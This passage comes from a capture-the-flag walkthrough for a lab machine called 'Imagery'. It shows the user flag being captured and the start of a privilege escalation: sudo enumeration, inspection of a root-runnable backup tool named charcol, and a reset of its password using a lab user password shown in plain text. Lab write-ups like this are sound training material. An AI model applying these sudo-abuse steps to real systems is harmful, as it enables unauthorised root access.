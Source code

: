 **Retrieve the user flag:**

```bash
cat /home/mark/user.txt
```

🚩 **User flag captured!**

---

## Privilege Escalation to Root

### Step 14: Sudo Privileges Enumeration

Check what commands `mark` can run with sudo:

```bash
sudo -l
```

**Output:**

```
User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

**Interesting!** We can run `/usr/local/bin/charcol` as root without a password.

### Step 15: Analyze Charcol Binary

**Check if it's a binary or script:**

```bash
file /usr/local/bin/charcol
```

**Explore its capabilities:**

```bash
sudo /usr/local/bin/charcol --help
```

**Key findings:**
- Charcol is a backup management tool
- It has a `shell` command for interactive mode
- It includes an `auto add` feature for **adding cron jobs**
- **Security Warning:** "Charcol does NOT validate the safety of the --command"

### Step 16: Reset Application Password

First, reset the Charcol password to bypass authentication:

```bash
sudo /usr/local/bin/charcol -R
```

**Output:**

```
[INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: supersmash

[INFO] System password verified successfully.
Removed existing config file: /root/.charcol/.charcol_config
Charcol application password has been reset to default (no password mode).
```
